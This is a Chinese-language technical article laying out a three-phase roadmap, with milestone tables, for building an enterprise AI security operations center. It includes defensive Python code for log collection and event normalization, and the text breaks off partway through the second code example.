






**作者：** HOS(安全风信子)
**日期：** 2026-04-27
**主要来源平台：** GitHub/HuggingFace/ModelScope/arXiv

**摘要：** 本文系统阐述企业AI安全运营中心（AI SOC）从0到1建设的完整落地路线图。核心围绕三阶段实施规划模型展开：基础夯实期（1-6个月）、能力提升期（6-12个月）、智能自主期（12-18个月）。文章创新性地提出里程碑与验收标准体系，涵盖数据治理、工具整合、团队培训、AI能力引入、流程优化及深度智能化六大维度。详细分析18类关键成功因素，揭示技术选型、组织文化、人才储备、流程再造等核心要素的内在关联。提供3个完整可运行的Python代码示例，覆盖数据采集、异常检测、告警收敛等关键场景。包含6幅Mermaid架构图和流程图，为企业安全团队提供可操作、可落地的AI安全运营实施指南。技术悬念：如何在18个月内实现从传统SOC到AI SOC的跃迁，同时保证业务连续性？

@[TOC](目录)

---

# 从0到1的AI SOC建设：企业落地路线图详解

## 1 引言：AI重塑安全运营的范式转变

### 1.1 安全运营的演进历程与AI赋能逻辑

安全运营中心（SOC）作为企业信息安全体系的核心枢纽，历经三个重要发展阶段。第一代SOC以人工操作为主，安全分析师依赖简单规则和经验进行告警判断，平均处理单个告警耗时长达30分钟以上。第二代SOC引入自动化工具，实现了一定程度的告警分级和初步关联分析，但依然无法应对日益复杂的攻击手法和海量告警洪流。第三代SOC即AI SOC，通过机器学习、自然语言处理、知识图谱等AI技术，实现智能化威胁检测、自适应风险评估、自动化的响应处置。

传统SOC面临的三大核心痛点催生了AI SOC的建设需求。首先是告警疲劳问题，企业安全设备每日产生的告警量可达数十万条，其中真实攻击占比不足1%，安全分析师在海量告警中筛选真正威胁的效率极低。其次是人才短缺困境，据统计全球网络安全人才缺口已达300万以上，具备高级威胁分析能力的专业人才更是稀缺。最后是响应时效要求，现代网络攻击的横向移动速度已缩短至分钟级，传统的分诊、研判、响应流程根本无法满足及时遏制攻击的需求。

AI技术为上述痛点提供了系统性解决路径。在告警降噪方面，机器学习模型可以通过多维度特征学习实现高达95%的告警过滤率，将有意义的告警从噪声中精准提取。在威胁检测方面，深度学习模型能够识别未知攻击模式，弥补规则引擎的滞后性缺陷。在响应自动化方面，AI驱动的编排响应（SOAR）平台可将平均响应时间从小时级压缩至分钟级。以下是AI SOC的核心能力矩阵：

| 能力维度 | 传统SOC | AI SOC | 提升倍数 |
|---------|--------|--------|----------|
| 告警处理效率 | 30分钟/条 | 2分钟/条 | 15x |
| 威胁检出率 | 60% | 94% | 1.6x |
| 误报率 | 40% | 5% | 8x |
| MTTD（平均检测时间） | 24小时 | 15分钟 | 96x |
| MTTR（平均响应时间） | 4小时 | 5分钟 | 48x |

### 1.2 企业AI SOC建设的战略意义

AI SOC建设绝非单纯的技术升级，而是企业安全能力体系的整体性变革。从战略层面审视，AI SOC使安全团队从被动的告警响应者转变为主动的威胁猎手。传统的"发现-分析-响应"线性流程被"预测-预防-检测-响应"闭环模型取代，安全运营从成本中心向价值中心演进。从业务层面看，AI SOC通过降低误报率和提升检测时效，直接减少了因安全事件导致的业务中断损失，同时释放的安全分析师资源可以投入到更高价值的风险评估和架构优化工作中。

从行业发展趋势判断，AI原生安全（AI-Native Security）正在成为下一代安全架构的主流范式。Gartner预测到2026年，超过60%的企业将把AI能力嵌入至少一个主要安全产品功能中麦肯锡的研究报告则指出，实施AI安全运营的企业在网络安全方面的投入产出比可达传统方式的3-5倍。然而，AI SOC建设也是一项复杂的系统工程，涉及技术选型、数据治理、团队转型、流程再造、组织变革等多个维度，缺乏系统性的规划极易导致项目失败。因此，建立科学、可落地的实施路线图成为企业AI SOC建设的首要任务。

## 2 AI SOC落地整体规划框架

### 2.1 战略愿景与核心目标设定

企业AI SOC建设的战略愿景应当回答三个根本性问题：我们期望达到什么样的安全状态？我们需要多长时间达成目标？我们应当采用什么样的路径？研究表明，那些缺乏清晰愿景的企业在AI SOC建设中往往陷入技术驱动的误区，投入大量资源却无法获得预期的安全能力提升。

科学的愿景设定需要遵循SMART原则，具体、可衡量、可实现、相关性、时限性缺一不可。以某大型金融机构为例，其AI SOC战略愿景设定为："在18个月内建成业界领先的AI驱动安全运营中心，实现威胁检测智能化、响应处置自动化、运营管理精细化，安全事件响应效率提升10倍，核心业务系统安全可用性达到99.99%"。这一愿景既有明确的时间边界，又有可量化的性能指标，同时与业务连续性目标紧密关联。

核心目标的分解需要从能力成熟度角度进行系统规划。我们提出AI SOC能力成熟度五级模型，作为目标设定的参照基准：

| 成熟度等级 | 能力特征 | 典型企业 |
|-----------|---------|----------|
| L1-初始级 | 依赖手工操作，规则驱动 | 小型组织 |
| L2-基础级 | 初步自动化，工具整合 | 传统企业 |
| L3-规范级 | 流程标准化，AI辅助决策 | 成长型企业 |
| L4-量化级 | 数据驱动，智能检测 | 先进企业 |
| L5-优化级 | 自我学习，自主响应 | 行业领先者 |

### 2.2 三阶段实施规划模型

基于业界最佳实践和大量企业案例分析，我们提出"基础夯实-能力提升-智能自主"三阶段实施规划模型。这一模型的核心设计理念是将AI SOC建设分解为递进式的能力演进路径，每个阶段设定明确的目标、任务、交付物和验收标准，确保建设过程可控、成果可量化。



**第一阶段：基础夯实期（1-6个月）** 的战略重点是"强基固本"。这一阶段的核心任务包括数据治理体系建设、安全工具整合优化、安全团队AI能力培训、安全运营流程标准化。阶段目标是建立高质量的安全数据底座，打通数据孤岛，形成统一的数据管理规范；完成主要安全工具的整合部署，建立集中日志管理和SIEM平台；培养首批具备AI应用能力的安全分析师；制定AI SOC运营管理规范和绩效考核体系。

**第二阶段：能力提升期（6-12个月）** 的战略重点是"智能赋能"。这一阶段将正式引入AI能力组件，包括机器学习检测模型、自然语言处理引擎、知识图谱系统等。阶段目标是实现基于AI的威胁检测能力上线，智能告警降噪系统稳定运行，AI辅助决策系统投入使用，安全编排自动化响应初步运转。核心交付物包括经过验证的AI检测模型、告警收敛率超过90%的智能降噪系统、可解释的AI威胁分析报告。

**第三阶段：智能自主期（12-18个月）** 的战略重点是"自主进化"。这一阶段将实现AI SOC的深度智能化和全面自动化，包括高级威胁狩猎能力、预测性安全分析、自主响应处置、安全能力自我优化。阶段目标是建立威胁预测体系，实现分钟级自动响应，关键场景下AI自主决策占比超过60%，安全能力可量化评估和持续优化。

### 2.3 里程碑与验收标准体系

为确保三阶段规划模型的有效落地，我们建立了一套完整的里程碑与验收标准体系。这一体系覆盖技术交付物、业务效果、组织能力三个维度，为每个阶段、每项任务设定明确的验收条件和评估方法。



**第一阶段关键里程碑与验收标准：**

| 里程碑 | 验收标准 | 评估方法 |
|-------|---------|----------|
| M1.1 数据治理平台上线 | 数据接入覆盖率≥80%，数据质量合格率≥90% | 平台功能测试+数据抽检 |
| M1.2 SIEM系统部署完成 | 日志接入≥20种源，平均查询响应<5秒 | 压力测试+功能验证 |
| M1.3 安全工具整合完成 | 核心工具API互联互通，告警自动同步 | 集成测试+端到端验证 |
| M1.4 AI培训完成 | 80%以上分析师通过认证考核 | 在线考核+实操评估 |
| M1.5 运营规范发布 | 覆盖主要运营场景，执行率≥95% | 流程审计+合规检查 |

**第二阶段关键里程碑与验收标准：**

| 里程碑 | 验收标准 | 评估方法 |
|-------|---------|---------|
| M2.1 AI检测模型上线 | 检测准确率≥90%，召回率≥85% | 红蓝对抗测试 |
| M2.2 智能降噪系统运行 | 告警收敛率≥85%，保持误报率<10% | 生产环境验证 |
| M2.3 SOAR平台部署 | 核心剧本自动化执行成功率≥95% | 演练验证 |
| M2.4 AI辅助分析上线 | 分析师采纳率≥70%，效率提升≥50% | 对比实验 |
| M2.5 效果验证报告 | 各项指标达成预期，ROI≥150% | 数据分析+评估 |

**第三阶段关键里程碑与验收标准：**

| 里程碑 | 验收标准 | 评估方法 |
|-------|---------|---------|
| M3.1 威胁狩猎平台上线 | 发现隐藏威胁≥5个/季度 | 威胁狩猎演练 |
| M3.2 预测分析系统运行 | 预测准确率≥75%，提前预警≥3天 | 历史数据回测 |
| M3.3 自动响应体系完善 | 关键场景自动处置率≥80% | 演练验证 |
| M3.4 AI自优化机制建立 | 模型迭代周期≤2周，效果持续提升 | 监控数据分析 |
| M3.5 全面评估与优化 | 达到L4成熟度，行业排名提升 | 第三方评估 |

### 2.4 实施路径与依赖关系

三阶段实施模型中的各项任务存在复杂的依赖关系，必须按照合理的顺序推进。以下是任务依赖关系矩阵和关键路径分析：



关键路径定义为：数据治理 → 工具整合 → AI能力引入 → 流程优化 → 深度智能化 → 全面自动化 → 自主进化。这条路径上的任何延误都将直接影响整体项目进度，需要重点关注和资源倾斜。

## 3 第一阶段详解：基础夯实期（1-6个月）

### 3.1 数据治理体系建设

数据是AI SOC建设的基石，高质量的安全数据是AI模型有效运行的前提条件。第一阶段的数据治理工作需要解决三个核心问题：数据采集的完整性、数据存储的规范性、数据质量的可靠性。

**数据采集架构设计**需要遵循"全量采集、按需存储、智能过滤"的原则。全量采集确保不遗漏任何潜在的安全相关信息，按需存储根据数据类型和价值设定差异化的保留策略，智能过滤在采集层即去除明显的干扰数据。以下是安全数据采集的典型源类型和采集方法：

```python
#!/usr/bin/env python3
"""
AI SOC 数据采集模块
支持多源安全日志的统一采集、标准化和转发
"""

import json
import logging
from datetime import datetime
from typing import Dict, List, Any, Optional
from dataclasses import dataclass, field
from enum import Enum
import hashlib

logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(name)s - %(levelname)s - %(message)s'
)
logger = logging.getLogger(__name__)


class DataSourceType(Enum):
    NETWORK_DEVICE = "network_device"
    SECURITY_DEVICE = "security_device"
    ENDPOINT = "endpoint"
    APPLICATION = "application"
    CLOUD_SERVICE = "cloud_service"
    USER_ACTIVITY = "user_activity"


@dataclass
class SecurityEvent:
    """安全事件标准化数据模型"""
    event_id: str
    timestamp: datetime
    source_type: DataSourceType
    source_name: str
    event_type: str
    severity: int  # 1-5, 5为最严重
    src_ip: Optional[str] = None
    dst_ip: Optional[str] = None
    src_port: Optional[int] = None
    dst_port: Optional[int] = None
    protocol: Optional[str] = None
    user: Optional[str] = None
    asset: Optional[str] = None
    raw_log: str = ""
    enriched_fields: Dict[str, Any] = field(default_factory=dict)
    ai_features: Dict[str, float] = field(default_factory=dict)
    
    def __post_init__(self):
        if not self.event_id:
            self.event_id = self._generate_event_id()
    
    def _generate_event_id(self) -> str:
        content = f"{self.timestamp.isoformat()}{self.source_name}{self.event_type}"
        return hashlib.sha256(content.encode()).hexdigest()[:16]
    
    def to_dict(self) -> Dict[str, Any]:
        return {
            "event_id": self.event_id,
            "timestamp": self.timestamp.isoformat(),
            "source_type": self.source_type.value,
            "source_name": self.source_name,
            "event_type": self.event_type,
            "severity": self.severity,
            "src_ip": self.src_ip,
            "dst_ip": self.dst_ip,
            "src_port": self.src_port,
            "dst_port": self.dst_port,
            "protocol": self.protocol,
            "user": self.user,
            "asset": self.asset,
            "raw_log": self.raw_log,
            "enriched_fields": self.enriched_fields,
            "ai_features": self.ai_features
        }


class SecurityDataCollector:
    """安全数据采集器主类"""
    
    def __init__(self, collector_id: str, buffer_size: int = 1000):
        self.collector_id = collector_id
        self.buffer_size = buffer_size
        self.event_buffer: List[SecurityEvent] = []
        self.stats = {
            "total_collected": 0,
            "total_processed": 0,
            "total_failed": 0,
            "by_source_type": {}
        }
        logger.info(f"数据采集器 {collector_id} 初始化完成")
    
    def collect_from_firewall(self, log_line: str) -> Optional[SecurityEvent]:
        """从防火墙日志提取安全事件"""
        try:
            parts = log_line.split()
            if len(parts) < 10:
                return None
            
            event = SecurityEvent(
                event_id="",
                timestamp=datetime.now(),
                source_type=DataSourceType.SECURITY_DEVICE,
                source_name="firewall_core_01",
                event_type=self._classify_firewall_event(parts),
                severity=self._calculate_firewall_severity(parts),
                src_ip=parts[3] if len(parts) > 3 else None,
                dst_ip=parts[5] if len(parts) > 5 else None,
                src_port=int(parts[4]) if len(parts) > 4 and parts[4].isdigit() else None,
                dst_port=int(parts[6]) if len(parts) > 6 and parts[6].isdigit() else None,
                protocol=parts[2] if len(parts) > 2 else None,
                raw_log=log_line
            )
            
            self._extract_ai_features(event)
            self._update_stats("firewall")
            return event
            
        except Exception as e:
            logger.error(f"防火墙日志解析失败: {e}")
            self.stats["total_failed"] += 1
            return None
    
    def collect_from_ids(self, log_data: Dict) -> Optional[SecurityEvent]:
        """从IDS/IPS日志提取安全事件"""
        try:
            event = SecurityEvent(
                event_id="",
                timestamp=datetime.fromisoformat(log_data.get("timestamp", datetime.now().isoformat())),
                source_type=DataSourceType.SECURITY_DEVICE,
                source_name=log_data.get("sensor_name", "ids_primary"),
                event_type=log_data.get("alert_type", "unknown"),
                severity=self._map_ids_severity(log_data.get("priority", 3)),
                src_ip=log_data.get("src_ip"),
                dst_ip=log_data.get("dst_ip"),
                src_port=log_data.get("src_port"),
                dst_port=log_data.get("dst_port"),
                protocol=log_data.get("protocol"),
                user=log_data.get("username"),
                raw_log=json.dumps(log_data)
            )
            
            self._extract_ai_features(event)
            self._update_stats("ids")
            return event
            
        except Exception as e:
            logger.error(f"IDS日志解析失败: {e}")
            self.stats["total_failed"] += 1
            return None
    
    def collect_from_endpoint(self, telmetry_data: Dict) -> SecurityEvent:
        """从终端遥测数据提取安全事件"""
        event = SecurityEvent(
            event_id="",
            timestamp=datetime.fromisoformat(telmetry_data.get("@timestamp", datetime.now().isoformat())),
            source_type=DataSourceType.ENDPOINT,
            source_name=telmetry_data.get("agent_id", "unknown_endpoint"),
            event_type=telmetry_data.get("event_type", "process_create"),
            severity=self._assess_endpoint_severity(telmetry_data),
            src_ip=telmetry_data.get("source_ip"),
            user=telmetry_data.get("user_name"),
            asset=telmetry_data.get("host_name"),
            raw_log=json.dumps(telmetry_data)
        )
        
        self._extract_endpoint_features(event, telmetry_data)
        self._update_stats("endpoint")
        return event
    
    def _classify_firewall_event(self, log_parts: List[str]) -> str:
        """防火墙事件分类"""
        action = log_parts[1] if len(log_parts) > 1 else ""
        if "DROP" in action:
            return "firewall_drop"
        elif "ALLOW" in action:
            return "firewall_allow"
        elif "DENY" in action:
            return "firewall_deny"
        return "firewall_unknown"
    
    def _calculate_firewall_severity(self, log_parts: List[str]) -> int:
        """计算防火墙事件严重性"""
        action = log_parts[1] if len(log_parts) > 1 else ""
        if "DROP" in action:
            return 3
        elif "DENY" in action:
            return 4
        return 1
    
    def _map_ids_severity(self, priority: int) -> int:
        """IDS优先级映射到标准严重性"""
        mapping = {1: 5, 2: 4, 3: 3, 4: 2, 5: 1}
        return mapping.get(priority, 3)
    
    def _assess_endpoint_severity(self, telemetry: Dict) -> int:
        """评估终端事件严重性"""
        event_type = telemetry.get("event_type", "")
        if event_type in ["process_create", "file_create"]:
            return 2
        elif event_type in ["registry_modify", "service_create"]:
            return 3
        elif event_type in ["remote_thread", "process_inject"]:
            return 5
        return 2
    
    def _extract_ai_features(self, event: SecurityEvent):
        """提取AI模型所需的特征"""
        event.ai_features = {
            "hour_of_day": event.timestamp.hour,
            "day_of_week": event.timestamp.weekday(),
            "is_business_hours": 1 if 9 <= event.timestamp.hour <= 18 else 0,
            "src_ip_entropy": self._calculate_ip_entropy(event.src_ip),
            "dst_port_risk": self._assess_port_risk(event.dst_port),
            "protocol_risk": self._assess_protocol_risk(event.protocol)
        }
    
    def _extract_endpoint_features(self, event: SecurityEvent, telemetry: Dict):
        """提取终端特定AI特征"""
        event.ai_features = {
            "hour_of_day": event.timestamp.hour,
            "day_of_week": event.timestamp.weekday(),
            "is_business_hours": 1 if 9 <= event.timestamp.hour <= 18 else 0,
            "parent_process_suspicious": self._check_parent_process(telemetry),
            "commandline_length": len(telemetry.get("command_line", "")),
            "file_hash_known": 1 if telemetry.get("file_hash") else 0
        }
    
    def _calculate_ip_entropy(self, ip: Optional[str]) -> float:
        """计算IP地址特征熵值"""
        if not ip:
            return 0.0
        segments = ip.split('.')
        if len(segments) != 4:
            return 0.0
        try:
            values = [int(s) for s in segments]
            avg = sum(values) / 4
            variance = sum((v - avg) ** 2 for v in values) / 4
            return min(variance / 1000, 1.0)
        except:
            return 0.0
    
    def _assess_port_risk(self, port: Optional[int]) -> float:
        """端口风险评估"""
        if not port:
            return 0.5
        high_risk_ports = {20, 21, 22, 23, 25, 110, 143, 445, 3389, 8080}
        medium_risk_ports = {80, 443, 8081, 8443}
        if port in high_risk_ports:
            return 0.9
        elif port in medium_risk_ports:
            return 0.5
        return 0.2
    
    def _assess_protocol_risk(self, protocol: Optional[str]) -> float:
        """协议风险评估"""
        if not protocol:
            return 0.5
        risk_protocols = {"FTP": 0.7, "TELNET": 0.9, "HTTP": 0.5, "HTTPS": 0.2}
        return risk_protocols.get(protocol.upper(), 0.5)
    
    def _check_parent_process(self, telemetry: Dict) -> int:
        """检查父进程是否可疑"""
        parent = telemetry.get("parent_process_name", "")
        suspicious_parents = {"cmd.exe", "powershell.exe", "wscript.exe", "cscript.exe"}
        return 1 if parent in suspicious_parents else 0
    
    def _update_stats(self, source_type: str):
        """更新采集统计"""
        self.stats["total_collected"] += 1
        self.stats["by_source_type"][source_type] = \
            self.stats["by_source_type"].get(source_type, 0) + 1
    
    def add_to_buffer(self, event: SecurityEvent):
        """添加事件到缓冲区"""
        self.event_buffer.append(event)
        self.stats["total_processed"] += 1
        if len(self.event_buffer) >= self.buffer_size:
            self.flush_buffer()
    
    def flush_buffer(self) -> List[SecurityEvent]:
        """刷新缓冲区，返回所有事件并清空"""
        events = self.event_buffer.copy()
        self.event_buffer.clear()
        logger.info(f"缓冲区刷新，{len(events)}个事件待转发")
        return events
    
    def get_stats(self) -> Dict:
        """获取采集统计信息"""
        return self.stats.copy()


def demo_data_collection():
    """演示数据采集功能"""
    collector = SecurityDataCollector("demo_collector_01")
    
    sample_firewall_logs = [
        "2024-01-15 10:23:45 ALLOW TCP 192.168.1.100 443 10.0.0.50 8080",
        "2024-01-15 10:23:46 DROP TCP 192.168.1.200 22 10.0.0.50 3389",
        "2024-01-15 10:23:47 DENY UDP 192.168.1.150 53 10.0.0.50 5353"
    ]
    
    for log in sample_firewall_logs:
        event = collector.collect_from_firewall(log)
        if event:
            collector.add_to_buffer(event)
            print(f"采集事件: {event.event_id[:8]}... | 类型: {event.event_type} | 严重性: {event.severity}")
    
    sample_ids_data = {
        "timestamp": "2024-01-15T10:24:00",
        "sensor_name": "ids_snort_01",
        "alert_type": "ET SCAN Potential SSH Scan",
        "priority": 2,
        "src_ip": "203.0.113.50",
        "dst_ip": "192.168.1.100",
        "src_port": 54321,
        "dst_port": 22,
        "protocol": "TCP"
    }
    
    ids_event = collector.collect_from_ids(sample_ids_data)
    if ids_event:
        collector.add_to_buffer(ids_event)
        print(f"IDS事件: {ids_event.event_id[:8]}... | 类型: {ids_event.event_type} | 严重性: {ids_event.severity}")
    
    sample_endpoint_data = {
        "@timestamp": "2024-01-15T10:24:30",
        "agent_id": "ep_hr_workstation_07",
        "event_type": "process_create",
        "user_name": "zhangsan",
        "host_name": "HR-PC-07",
        "process_name": "malware.exe",
        "command_line": "malware.exe -encodeddata SGVsbG8gV29ybGQ=",
        "parent_process_name": "cmd.exe"
    }
    
    ep_event = collector.collect_from_endpoint(sample_endpoint_data)
    collector.add_to_buffer(ep_event)
    print(f"终端事件: {ep_event.event_id[:8]}... | 类型: {ep_event.event_type} | 严重性: {ep_event.severity}")
    
    print("\n=== 采集统计 ===")
    stats = collector.get_stats()
    print(f"总采集量: {stats['total_collected']}")
    print(f"总处理量: {stats['total_processed']}")
    print(f"失败数量: {stats['total_failed']}")
    print(f"按源类型分布: {stats['by_source_type']}")


if __name__ == "__main__":
    demo_data_collection()
```

**数据质量管理**需要建立完整的数据质量评估和控制体系。数据质量维度包括完整性（字段填充率）、准确性（数据正确性）、一致性（跨源数据协调性）、时效性（数据延迟时间）、唯一性（重复数据比例）。建议采用自动化数据质量监控平台，实时检测数据质量问题并触发告警。

**数据存储架构设计**需要综合考虑数据量、性能、成本、可扩展性等因素。对于AI SOC场景，建议采用分层存储架构：热数据层存储近30天的高频访问数据，使用高性能SSD存储；温数据层存储30-90天数据，使用普通SAS存储；冷数据层存储90天以上的历史数据，使用对象存储或数据湖归档。以下是数据存储策略的参考配置：

| 数据类型 | 保留周期 | 存储介质 | 压缩比 | 日均增量 |
|---------|---------|---------|-------|---------|
| 全量日志 | 90天 | SAS/SSD混合 | 1.5:1 | 500GB |
| 告警事件 | 180天 | SAS | 2:1 | 50GB |
| 威胁情报 | 1年 | SSD | 3:1 | 5GB |
| 案件记录 | 3年 | 对象存储 | 4:1 | 1GB |
| AI模型数据 | 2年 | SSD | 2:1 | 20GB |

### 3.2 安全工具整合与SIEM部署

安全工具整合是AI SOC建设的基础工程，旨在打破数据孤岛，建立统一的安全信息管理能力。整合工作需要覆盖网络层、主机层、应用层、云平台等多个技术栈，涉及防火墙、IDS/IPS、WAF、终端检测响应（EDR）、云安全态势管理（CSPM）等十余类安全工具。

**SIEM平台选型与部署**是工具整合的核心环节。主流SIEM平台包括Splunk、IBM QRadar、Microsoft Sentinel、Elastic Security等，各有优劣。选型时需要重点考量以下因素：日志采集能力（支持的源类型、数据格式、采集协议）、存储架构（分布式、索引效率、扩展性）、分析能力（内置规则、机器学习、关联分析）、集成能力（API、SDK、SOAR集成）、总体拥有成本（TCO）。

以下是多源安全日志统一接入的参考架构实现：

```python
#!/usr/bin/env python3
"""
AI SOC SIEM 数据接入与标准化模块
支持Syslog、Webhook、Filebeat、API等多种采集方式
"""

import time
import threading
import socket
import json
import re
from collections import defaultdict
from datetime import datetime
from typing import Dict, List, Any, Callable, Optional
from dataclasses import dataclass
from queue import Queue, Empty
import gzip
import base64


@dataclass
class NormalizedEvent:
    """标准化安全事件"""
    receive_time: datetime
    normalize_time: datetime
    source_platform: str
    source_product: str
    source_type: str
    event_category: str
    severity: int
    src_ip: Optional[str]
    dst_ip: Optional[str]
    src_port: Optional[int]
    dst_port: Optional[int]
    protocol: Optional[str]
    user: Optional[str]
    hostname: Optional[str]
    raw_event: str
    normalized_fields: Dict[str, Any]


class EventNormalizer:
    """事件标准化处理器"""
    
    def __init__(self):
        self.category_mapping = self._build_category_mapping()
        self.severity_mapping = self._build_severity_mapping()
        self.field_extractors = self._build_field_extractors()
    
    def _build_category_mapping(self) -> Dict[str, str]:
        return {
            "firewall": "network",
            "ids": "network",
            "ips": "network",
            "waf": "application",
            "proxy": "application",
            "edr": "endpoint",
            "antivirus": "endpoint",
            "iam": "identity",
            "ad": "identity",
            "mail": "application",
            "dns": "network",
            "dhcp": "network"
        }
    
    def _build_severity_mapping(self) -> Dict[str, Dict[str, int]]:
        return {
            "firewall": {"drop": 3, "deny": 4, "allow": 1},
            "ids": {"high": 5, "medium": 3, "low": 2},
            "waf": {"attack": 4, "blocked": 3, "allowed": 1},
            "edr": {"critical": 5, "high": 4, "medium": 3, "low": 2}
        }
    
    def _build_field_extractors(self) -> Dict[str, Callable]:
        return {
            "firewall": self._extract_firewall_fields,
            "ids": self._extract_ids_fields,
            "waf": self._extract_waf_fields,
            "edr": self._extract_edr_fields,
            "proxy": self._extract_proxy_fields
        }
    
    def normalize(self, raw_event: Dict, source_type: str) -> NormalizedEvent:
        """标准化原始事件"""
        extractor = self.field_extractors.get(source_type, self._extract_generic_fields)
        fields = extractor(raw_event)
        
        return NormalizedEvent(
            receive_time=datetime.now(),
            normalize_time=datetime.now(),
            source_platform=fields.get("platform", "unknown"),
            source_product=fields.get("product", "unknown"),
            source_type=source_type,
            event_category=self._categorize(source_type, fields),
            severity=self._map_severity(source_type, fields),
            src_ip=fields.get("src_ip"),
            dst_ip=fields.get("dst_ip"),
            src_port=fields.get("src_port"),
            dst_port=fields.get("dst_port"),
            protocol=fields.get("protocol"),
            user=fields.get("user"),
            hostname=fields.get("hostname"),
            raw_event=json.dumps(raw_event),
            normalized_fields=fields
        )
    
    def _extract_firewall_fields(self, raw: Dict) -> Dict:
        pattern = raw.get("pattern", "")
        parts = re.split(r'\s+', pattern)
        return {
            "platform": "network",
            "product": "firewall",
            "src_ip": self._extract_ip(parts[3] if len(parts) > 3 else ""),
            "dst_ip": self._extract_ip(parts[5] if len(parts) > 5 else ""),
            "src_port": int(parts[4]) if len(parts) > 4 and parts[4].isdigit() else None,
            "dst_port": int(parts[6]) if len(parts) > 6 and parts[6].isdigit() else None,
            "protocol": parts[2] if len(parts) > 2 else None,
            "action": parts[1] if len(parts) > 1 else None
        }
    
    def _extract_ids_fields(self, raw: Dict) -> Dict:
        return {
            "platform": "network",
            "product": "ids",
            "src_ip": raw.get("src_ip"),
            "dst_ip": raw.get("dst_ip"),
            "src_port": raw.get("src_port"),
            "dst_port": raw.get("dst_port"),
            "protocol": raw.get("protocol"),
            "alert_type": raw.get("alert_type"),
            "priority": raw.get("priority", 3)
        }
    
    def _extract_waf_fields(self, raw: Dict) -> Dict:
        return {
            "platform": "application",
            "product": "waf",
            "src_ip": raw.get("client_ip"),
            "dst_ip": raw.get("server_ip"),
            "src_port": raw.get("client_port"),
            "dst_port": raw.get("server_port"),
            "protocol": "HTTPS" if raw.get("ssl") else "HTTP",
            "uri": raw.get("uri"),
            "action": raw.get("action"),
            "attack_type": raw.get("attack_type")
        }
    
    def _extract_edr_fields(self, raw: Dict) -> Dict:
        return {
            "platform": "endpoint",
            "product": "edr",
            "src_ip": raw.get("agent_ip"),
            "hostname": raw.get("hostname"),
            "user": raw.get("user_name"),
            "event_type": raw.get("event_type"),
            "process_name": raw.get("process_name"),
            "parent_process": raw.get("parent_process"),
            "command_line": raw.get("command_line"),
            "file_hash": raw.get("file_hash")
        }
    
    def _extract_proxy_fields(self, raw: Dict) -> Dict:
        return {
            "platform": "application",
            "product": "proxy",
            "src_ip": raw.get("client_ip"),
            "dst_ip": raw.get("server_ip"),
